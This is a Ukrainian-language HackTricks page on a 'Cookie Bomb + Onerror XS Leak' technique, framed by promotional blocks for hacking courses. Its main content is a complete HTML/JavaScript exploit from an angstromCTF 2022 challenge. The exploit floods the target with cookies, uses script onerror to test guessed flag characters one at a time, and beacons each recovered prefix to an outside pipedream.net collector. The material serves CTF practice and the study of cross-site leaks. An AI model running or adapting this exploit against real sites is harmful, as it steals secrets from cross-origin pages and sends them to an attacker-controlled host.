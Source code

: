# Cookie Bomb + Onerror XS Leak

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Наступний **скрипт**, взятий з [**тут**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/), експлуатує функціональність, яка дозволяє користувачу **вставляти будь-яку кількість куків**, а потім завантажує файл як скрипт, знаючи, що справжня відповідь буде більшою, ніж хибна, і тоді. Якщо успішно, відповідь є перенаправленням з URL, що в результаті довший, **занадто великий для обробки сервером, тому повертає код статусу помилки http**. Якщо пошук не вдається, нічого не станеться, оскільки URL короткий.
```html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
const $ = document.querySelector.bind(document);
const sleep = (ms) => new Promise(r => setTimeout(r, ms));
let i = 0;
const stuff = async (len=3500) => {
let name = Math.random();
$("form").target = name;
let w = window.open('', name);
$("#f").value = "_".repeat(len);
$("#f").name = i++;
$("form").submit();
await sleep(100);
};
const isError = async (url) => {
return new Promise(r => {
let script = document.createElement('script');
script.src = url;
script.onload = () => r(false);
script.onerror = () => r(true);
document.head.appendChild(script);
});
}
const search = (query) => {
return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
};
const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
const url = "//en4u1nbmyeahu.x.pipedream.net/";
let known = "actf{";
window.onload = async () => {
navigator.sendBeacon(url + "?load");
await Promise.all([stuff(), stuff(), stuff(), stuff()]);
await stuff(1600);
navigator.sendBeacon(url + "?go");
while (true) {
for (let c of alphabet) {
let query = known + c;
if (await search(query)) {
navigator.sendBeacon(url, query);
known += c;
break;
}
}
}
};
</script>
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
